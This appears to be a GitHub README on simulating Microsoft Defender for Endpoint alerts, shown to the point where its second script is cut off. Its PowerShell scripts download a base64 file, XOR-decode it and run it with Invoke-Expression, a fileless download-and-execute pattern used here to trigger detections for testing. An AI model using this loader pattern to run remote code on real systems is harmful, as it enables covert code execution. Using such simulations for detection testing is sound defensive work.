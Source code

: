 # Simulate MDE alerts and incidents

## 1. Multi-stage incident involving Defense evasion & Discovery on one endpoint

### Download `MTP_Fileless_Recon.txt` to `C:\Temp\MTP_Fileless_Recon.txt` from url below
```
https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt
```

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;

# Define the URL and the destination path
$url = "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt"
$destination = "C:\Temp\MTP_Fileless_Recon.txt"

# Download the file
Invoke-WebRequest -Uri $url -OutFile $destination

$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection')

$base64String = Get-Content -Path "C:\Temp\MTP_Fileless_Recon.txt"

Try {
    $contentBytes = [System.Convert]::FromBase64String($base64String)
} Catch {
    $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3))
}


$i = 0

$decryptedBytes = @()

$contentBytes.ForEach{
    $decryptedBytes += $_ -bxor $xor[$i]
    $i++
    if ($i -eq $xor.Length) {
        $i = 0
    }
}

Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
 
```


### This script now includes a check to see if the directory C:\Temp exists, and if it doesn't, it creates the directory before downloading the file.
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;

# Define the URL and the destination path
$url = "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt"
$destination = "C:\Temp\MTP_Fileless_Recon.txt"
$destinationDir = [System.IO.Path]::GetDirectoryName($destination)

# Create the directory if it doesn't exist
If (-Not (Test-Path -Path $destinationDir)) {
    New-Item -ItemType Directory -Path $destinationDir
```